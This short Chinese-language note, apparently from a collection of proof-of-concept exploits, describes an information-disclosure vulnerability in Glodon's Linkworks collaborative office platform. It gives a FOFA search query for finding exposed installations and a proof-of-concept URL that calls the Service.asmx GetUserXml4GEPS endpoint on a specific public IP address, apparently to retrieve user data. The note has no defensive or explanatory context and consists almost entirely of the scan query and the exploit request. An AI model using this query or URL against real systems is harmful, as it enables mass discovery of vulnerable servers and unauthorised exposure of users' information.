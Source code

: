 # 广联达-Linkworks 协同办公管理平台 Service.asmx GetUserXml4GEPS 信息泄露漏洞

    ## fofa

```
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

## poc

```
http://202.110.234.94:8888/Org/service/Service.asmx?op=GetUserXml4GEPS
```
